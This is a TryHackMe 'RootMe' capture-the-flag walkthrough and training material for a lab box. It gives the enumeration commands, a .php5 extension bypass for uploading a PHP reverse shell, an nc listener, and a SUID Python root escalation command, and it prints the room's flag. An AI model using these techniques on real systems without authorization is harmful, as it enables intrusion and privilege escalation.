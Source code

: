 # RootMe-THM



RootMe Walkthrough (TryHackMe)
Basic Tools Recap
Catch a reverse shell:

 nc -lvnp <port>


Start a reverse shell: Pentestmonkey PHP reverse shell


Upgrade the shell:

 python3 -c 'import pty; pty.spawn("/bin/bash")'


Search for files by name:

 find / -type f -name "user.txt" 2>/dev/null


Search inside files:

 grep -rn "user.txt" / 2>/dev/null


Find SUID binaries:

 find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null



Reconnaissance
Run Nmap scan:
nmap -sC -sV 10.10.x.x

Open ports discovered:
22/tcp → SSH


80/tcp → HTTP


SSH is open but cannot be brute-forced. Web service is available on port 80.

Web Enumeration
Browse to port 80. Page source shows nothing useful.
Run Gobuster:
gobuster dir -u http://10.10.x.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

Directories found:
/panel


/uploads



Exploitation – File Upload
The /panel page allows uploads. PHP files are blocked, but .php5 is accepted.
Modify Pentestmonkey reverse shell from .php to .php5 and upload.
Start a listener:
nc -lvnp 4444

Trigger the shell by visiting:
http://10.10.x.x/uploads/reverse.php5

Shell is caught.

Upgrading the Shell
Upgrade the reverse shell:
python -c 'import pty; pty.spawn("/bin/bash")'


User Flag
Locate user flag:
find / -type f -name "user.txt" 2>/dev/null

Read the flag:
cat /home/<user>/user.txt


Privilege Escalation
Enumerate SUID binaries:
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null

Python is listed as SUID.
Use GTFOBins exploit:
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'

Now root shell is obtained.

Root Flag
Navigate to root directory and read the flag:
cd /root
ls
cat root.txt

Flag obtained:
THM{pr1v1l3g3_3sc4l4t10n}
